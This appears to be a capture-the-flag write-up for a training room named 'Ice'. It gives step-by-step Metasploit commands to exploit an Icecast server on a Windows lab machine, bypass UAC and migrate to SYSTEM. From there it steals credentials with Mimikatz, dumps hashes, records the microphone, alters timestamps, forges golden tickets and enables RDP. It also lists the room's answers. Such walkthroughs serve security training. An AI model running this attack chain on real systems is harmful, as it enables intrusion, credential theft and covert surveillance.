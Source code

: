 # Ice

> Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

<br>

Process:
- 1) scanning 
  - port scan: `nmap -T4 <ip>`
    - MSRDP is open on port: **3389**
  - aggressive scan: `nmap -T4 -A -p 135,139,445,3389,5357,8000,49152,49153,49154,49158,49159,49160 <ip>`
    - service running on port 8000 = **icecast**
    - hostname of the machine = **DARK-PC**
- 2) gain access
- type of vulnerability icecast is vulnerable to = **execute code overflow**
- CVE number for this vulnerability = **CVE-2004-1561**
- use metasploit to find this exploit:
  - `msfconsole` -> `search icecast` -> `use 0`
  - exploit module = **exploit/windows/http/icecast_header**
  - configure options:
    - options to set == **RHOSTS**
  - `run` -- to execute
- 3) escalate:
  - name of shell on victim system = **meterpreter**
  - view running processes: `ps`
    - user last running the icecast process = **Dark**
  - find system information: `sysinfo`
    - build of Windows system = **7601**
    - archeticture of the process running = **x64**
  - run the "post/multi/recon/local_exploit_suggester" to find privilege escalation exploits
    - in metepreter: `run post/multi/recon/local_exploit_suggester`
      - (may take serveral minutes to complete)
    - first returned exploit = **exploit/windows/local/bypassuac_eventvwr**
  - background session (`background` or `Ctrl-Z`) -> `use exploit/windows/local/bypassuac_eventvwr` -> [set session number] -> [set options] -> `run`
  - view privileges this higher user has: `getprivs`
    - permission listed that allow you to take ownership of files = **SeTakeOwnershipPrivilege**
- 4) looting
  - move to a process with system permissions:
    - use `ps` to list processes, need to interact with the lsass service (windows authentication) so need to migrate to a process with x64 arch and "NT Authority\SYSTEM" privileges = the spool service
    - spool service process name = **spoolsv.exe**
    - migrate to this process: `migrate -N spoolsv.exe`
    - check user you are running as now with: `getuid`
      - user listed = **NT AUTHORITY\SYSTEM**
  - steal credentials with Mimikatz:
    - `load kiwi` -> `help` -> `creds_all` 
    - command to retrieve all credentials = **creds_all**
    - Dark user password = **Password01!**
- 5) post-exploitation
  - command to dump all of the password hashes stored on the system = **hashdump**
  - command to watch remote user's desktop in real time = **screenshare**
  - command to recrod from a microphone attached to the system = **record_mic**
  - command to modify timestamps of files on the system = **timestomp**
  - command to create a "golden ticket" (via Mimikatz) that lets you authenticate anywhere with ease = **golden_ticket_create**
    - golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain
  - as we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). If this is not enabled on the system then run `run post/windows/manage/enable_rdp` and you can then login
